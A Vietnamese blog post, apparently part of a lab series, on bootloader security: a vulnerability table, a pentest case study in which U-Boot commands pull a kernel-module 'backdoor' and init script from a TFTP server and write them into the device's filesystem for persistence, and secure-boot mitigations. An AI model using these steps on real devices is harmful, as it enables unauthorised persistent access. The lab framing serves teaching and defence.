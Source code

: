 ```yaml
---
title: "Bootloader Security: Các lỗ hổng bảo mật và kỹ thuật tấn công"
author: kiennql
date: 2025-06-19 14:14:00 +0700
categories: [bootloader-labs]
tags: [bootloader, security, u-boot, embedded security, penetration testing, backdoor, tftp, kernel module, kernel, secure boot]
math: true
mermaid: true
render_with_liquid: false
---
```


## 1. Các lỗ hổng bootloader phổ biến

| Lỗ hổng | Mô tả | Khai thác |
|---------|-------|-----------|
| **Console port access** | Console port kết nối qua endpoint web công khai | Truy cập bootloader trực tiếp |
| **Thiếu authentication** | Không có xác thực trong bootloader | Thay đổi cấu hình, tải mã độc |
| **Unsigned code execution** | Cho phép thực thi code không ký | Chèn và thực thi backdoor |
| **Firmware update không an toàn** | Cơ chế cập nhật firmware yếu | Cập nhật firmware chứa malware |
| **Pre-secure boot access** | Truy cập trước khi secure boot | Cài đặt malware trước bảo vệ |

## 2. Case Study - Penetration Test

### 2.1. Mục tiêu

Trong quá trình pentest, phát hiện endpoint `http://vexpress.arm:8000` kết nối tới console của thiết bị nhúng.

**Target:** Cài đặt backdoor để có shell access và liệt kê processes.

### 2.2. Môi trường lab

```mermaid
graph LR
    A[Attacker] --> B[TFTP Server<br/>192.39.37.4]
    A --> C[Target Device<br/>vexpress.arm:8000]
    B --> C
```

## 3. Triển khai Bootloader Attack

### 3.1. Chuẩn bị payload

Tạo kernel module backdoor và init script:

```bash:S60kernel
#!/bin/sh
case "$1" in
    start)
        insmod /var/processenum.ko &
        [ $? = 0 ] && echo "OK" || echo "FAIL"
        ;;
    stop)
        rmmod processenum &
        [ $? = 0 ] && echo "OK" || echo "FAIL"
        ;;
    restart|reload)
        "$0" stop; "$0" start
        ;;
    *)
        echo "Usage: $0 {start|stop|restart}"
        exit 1
esac
exit $?
```

Files cần thiết:
```bash
root@kai:~/Desktop/backdoor-files# ls
S60kernel  processenum.ko
```

### 3.2. Upload lên TFTP server

```bash
tftp tftp.server
tftp> put S60kernel
Sent 392 bytes in 0.0 seconds
tftp> put processenum.ko  
Sent 124012 bytes in 0.0 seconds
```

### 3.3. Khai thác bootloader

Truy cập console qua web endpoint và thực hiện:

**Bước 1:** Cấu hình network
```bash
=> dhcp
=> setenv serverip 192.39.37.4
```

**Bước 2:** Download files vào memory
```bash
=> tftp 0x63000000 processenum.ko
Bytes transferred = 123320 (1e1b8 hex)

=> tftp 0x65000000 S60kernel  
Bytes transferred = 370 (172 hex)
```

**Bước 3:** Ghi vào filesystem
```bash
=> ext4write mmc 0:1 0x63000000 /var/processenum.ko 01e1b8
123320 bytes written in 421 ms

=> ext4write mmc 0:1 0x65000000 /etc/init.d/S60kernel 0x172
370 bytes written in 375 ms

=> reset
```

### 3.4. Kết quả

Device reboot và backdoor tự động chạy với **PID 903**.

![Attack Result](/assets/img/post/bootloader-security/Untitled.webp)
_Backdoor đã được cài đặt thành công_

## 4. Giải pháp khắc phục

### 4.1. Secure Boot Technologies

| Solution | Mô tả |
|----------|-------|
| **ARM Trusted Firmware** | Quản lý boot process an toàn |
| **U-Boot Secure Boot** | Xác thực digital signature |
| **OP-TEE** | Trusted Execution Environment |
| **Tianocore EDK II** | UEFI secure boot cho ARM |

### 4.2. Best Practices

1. **Disable Console Access** trong production
2. **Implement Code Signing** - chỉ chạy signed code
3. **Secure Firmware Update** với encryption/authentication
4. **Boot Chain Verification** từ hardware root of trust
5. **Access Control** cho bootloader commands

**Lưu ý:** Triển khai secure boot từ giai đoạn thiết kế để đảm bảo hiệu quả tối đa.

